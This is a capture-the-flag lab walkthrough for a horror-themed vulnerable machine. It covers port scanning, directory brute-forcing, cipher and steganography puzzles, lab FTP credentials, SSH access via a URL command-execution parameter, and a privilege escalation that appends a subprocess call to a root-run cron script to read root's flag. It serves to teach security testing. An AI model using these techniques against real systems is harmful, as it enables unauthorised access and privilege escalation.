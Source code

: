 
# Scanning and Enumaration

nmap scan:

```bash
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63 ProFTPD 1.3.5a
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 44:2f:fb:3b:f3:95:c3:c6:df:31:d6:e0:9e:99:92:42 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDtgGI2Qpv+ora/iClEVeJSyw673ED4ciilMWv/Cw2NtVl9oB8A5rKktZYnJDw5sYZOvXimjb20Rk6a742anZZA87PM3StTZy8ZAMDEwdt8omaz5zy1c+HcJi4jjUIzPAZK10iKJ0JnyZ3eZZgEXALsU1zTi6U8Wn+6pixB9yRzAV8FVd/UThmC8vkiyNbNJUF6tgP+paajOIq2KzcmYrn8zZFL79EjDUUqSx72/wc/VUYyNArVGtVmOuvW1TBQwnpUv3zNQL1sabfiRzmgWB4unfHCVbj8autfHOfHSpMxC5QOuOJRTdhak6MUlHbjSXBF5MU1OP4mNTIoh/+e8k17
|   256 92:24:36:91:7a:db:62:d2:b9:bb:43:eb:58:9b:50:14 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCE8pJD7f5qX4X2kInnJf/m5wbTLOFA3I49Hyi2MrHxg3jREHseTbpqk00Xmy7F2+8Z8ljTdJwD9aafUAPgXxes=
|   256 34:04:df:13:54:21:8d:37:7f:f8:0a:65:93:47:75:d0 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPxHqNM/ISBztZhs47D+flKJiTqFqt5kJrFDoeNyO8Zb
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome To Becon Mental Hospital
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 3.10
```

### Port 80

I found looking at the source code:

```html
<!-- Sebastian sees a path through the darkness which leads to a room => /sadistRoom -->
```

The key is:

```bash
532219a04ab7a02b56faafbec1a4c1ea
```

Looking at the js we can see that we need to type the key in a field
as fast as we can and we will go to the lockerRoom

We need to decode a key again to see the map

```bash
Tizmg_nv_zxxvhh_gl_gsv_nzk_kovzhv
```

Using cybershef -> atbash cipher

```bash
Grant_me_access_to_the_map_please
```

In the html of /SafeHeaven I found:

```html
<!-- I think I'm having a terrible nightmare. Search through me and find it ... -->
```

So I decided to do a gobuster, I failed cause I tried a small wordlist  
I got stuck but then just for the sakes of it I tried:

```bash
gobuster dir -u http://10.10.94.138/SafeHeaven/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

After a long time I found:

```bash
===============================================================
2020/10/15 22:32:09 Starting gobuster
===============================================================
/imgs (Status: 301)
/keeper (Status: 301)
```

navigating to /keeper presents another challenge.  
Looking through the source code gives us a hint

```html
<!-- To Find it Add Reverse To Google -->
```

We download the image  
Quickly search it on google (better use Yandex for other challenges), and..

```html
St. Augustine Lighthouse
```

We get a new key:

```ba
48ee41458eb0b43bf82b986cecf3af01
```

So now we navigate to the Abandoned Room to get further,
We enter the key and try to enumarate.  

We go further and again hiding in the source code we something about a shell

If we use ?shell as a parameter in the URL we can execute commands!!!  
Sweet

Saddly the commands were super limited and after a long time
I found the needed URL by doing `ls ..` and navigating to that dir

After that I download the helpme.zip file and continue to the next part

I extracted the files inside

Rename the Table.jpg Table.zip

Extract that

Then Decode the .wav to morse from
[this](https://morsecode.world/international/decoder/audio-decoder-adaptive.html)
site

```txt
SHOWME
```

I use steghide with this password

```bash
steghide extract -sf Joseph_Oda.jpg
```

And I get ftp creds:

```bash
joseph:intotheterror445
```

I log in to the ftp server with this creds and download everything from there

I write a small bash script and I get

```bash
55 444 3 6 2 66 7777 7 2 7777 7777 9 666 777 3 444 7777 7777 666 7777 8 777 2 66 4 33
```

This is SMS Phone Tap Cipher so:

```ba
KIDMANSPASSWORDISSOSTRANGE
```

# Exploitation

ssh in with

```bash
ssh kidman@10.10.94.138sh kidman@10.10.94.138
```

# Post Exploitation

Doing a basic enumaration in the machine I found a crontab running as root

```bash
root python3 /var/.the_eye_of_ruvik.py
```

# Privilege Escalation

```bash
echo 'subprocess.call("cat /root/root.txt > /home/kidman/.the_eye.txt",shell=True)' >> /var/.the_eye_of_ruvik.py
```
